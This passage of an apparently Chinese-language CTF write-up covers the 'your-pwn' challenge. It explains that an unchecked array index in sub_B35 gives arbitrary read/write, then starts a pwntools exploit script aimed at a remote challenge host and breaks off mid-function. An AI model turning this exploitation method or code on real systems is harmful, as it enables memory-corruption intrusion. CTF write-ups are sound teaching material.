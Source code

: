 ![9](/img/2019-04-23/9.png)
### pwn
#### your-pwn
在函数`sub_B35`里面，没有对`index(v1)`进行检查，从而造成任意地址泄露和任意地址更改。直接改返回地址为`one_gadget`即可
```
for ( i = 0; i <= 40; ++i )
{
puts("input index");
__isoc99_scanf("%d", &v1);
printf("now value(hex) %x\n", (unsigned int)v4[v1]);
puts("input new value");
__isoc99_scanf("%d", &v2);
v4[v1] = v2;
}
```
详细脚本如下：
```python
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60007)
def pass_():
	p.recvuntil("name")
	p.sendline("Team233")
def change(index, addr):
	for i in range(8):
		p.recvuntil("index\n")
```